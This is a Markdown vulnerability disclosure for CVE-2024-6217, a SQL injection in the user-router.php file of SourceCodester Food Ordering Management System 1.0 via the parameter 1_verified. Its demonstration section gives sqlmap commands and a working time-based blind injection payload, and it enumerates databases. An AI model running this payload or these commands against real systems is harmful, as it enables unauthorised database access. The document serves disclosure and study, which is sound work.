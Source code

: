 ```yaml
---
title: CVE-2024-6217
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (user-router.php)
## CVE-2024-6217

> A vulnerability classified as critical was found in SourceCodester Food Ordering Management System 1.0. Affected by this vulnerability is an unknown functionality of the file user-router.php. The manipulation of the argument 1_verified leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-269281 was assigned to this vulnerability.

**Affected Project**: Sourcecodester Food Ordering Management System 1.0

**Official Website**: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

**Version**: 1.0

**Related Code file**: user-router.php

**Injection parameter**: 1_verified


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The '1_verified' parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on "Modify", we can access user-router.php:

`http://172.16.76.1/foms/users.php`

![image](https://github.com/jadu101/CVE/assets/76433661/a007fd00-1573-4c4f-92f0-01cc212c2253)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/e3a06a90-6829-4821-be84-376f1e8853a6)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

parameter 1_verified is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_user_router.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/c819e930-cc89-443a-a411-1564c81a6c98)

```
---
Parameter: 1_verified (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1_role=Administrator&1_verified=1' AND (SELECT 7078 FROM (SELECT(SLEEP(5)))GiGD) AND 'QLkI'='QLkI&1_deleted=0&1_balance=2000&4_role=Customer&4_verified=1&4_deleted=0&4_balance=1224&5_role=Customer&5_verified=0&5_deleted=0&5_balance=2000&6_role=Customer&6_verified=0&6_deleted=0&6_balance=2000&75_role=Customer&75_verified=0&75_deleted=0&75_balance=2001&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_user_router.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/41fda954-8efa-4597-a3ff-399f75db7585)
